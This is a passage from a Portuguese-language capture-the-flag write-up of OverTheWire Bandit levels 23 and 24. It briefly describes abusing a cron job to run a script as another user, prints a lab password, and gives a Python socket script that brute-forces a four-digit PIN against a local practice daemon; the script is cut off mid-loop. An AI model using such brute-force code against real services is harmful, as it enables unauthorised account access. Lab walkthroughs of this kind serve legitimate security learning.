 <p align="center"><strong>LEVEL 23</strong></p>
Esse não consegui resolver sozinho e tive que ler um walkthrough simplesmente porque esqueci que um cron é um daemon que se executa baseado num periodo de tempo.

Usei [esse](https://mayadevbe.me/posts/overthewire/bandit/level24/) artigo de referência.

Era impossível chegar a solução pelo simples fato de que eu estava tentando executar o script pelo meu usuário atual (<strong>bandit23</strong>) em vez de deixar ele <strong>se</strong> executar (como <strong>bandit24</strong>). Não tinha permissão para criar as pastas necessárias para conseguir inserir um script malicioso, e travei ai.

Comando(s): N/A

<strong>FLAG:</strong> VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
<br><br>

<p align="center"><strong>LEVEL 24</strong></p>
Tem um daemon na porta <i>30002</i> que vai me retornar a senha pro <strong>bandit25</strong> se eu enviar a senha do <strong>bandit24</strong> com um pin de <i>4 números secretos</i>, separado por um espaço. Não tem como saber do código que não seja por bruteforce.g

Fui tentar um simples telnet para ver como funciona a interação com o servidor.

![Output do sistema](https://github.com/evildocument/writeups/blob/main/overthewire/imgs/bandit24_level1.png)

Então imeditamente, eu comecei a escrever um script em Python pra tentar resolver.

O script completo:
```
### 1  
import socket  
PASS = "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"  
HOST = "127.0.0.1"  
PORT = 30002  
### 1  
## 2  
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:  
    sock.connect((HOST,PORT))  
    receiving = b""   
    counter = 0  
    BUFF_SIZE = 4096  
## 2  
## 2.1  
    while True:  
        part = sock.recv(BUFF_SIZE)  
        print(part.decode('utf-8'))  
        if len(part) < BUFF_SIZE:  
            break  
## 2.1  
## 3  
    for i in range(1000, 9999+1):  
        counter = i  
        sock.sendall((PASS + ' ' + str(counter) + '\n').encode())  
        print(f"enviado: {PASS} {counter}")  
## 3  
## 4  
        receiving = sock.recv(4096)  
```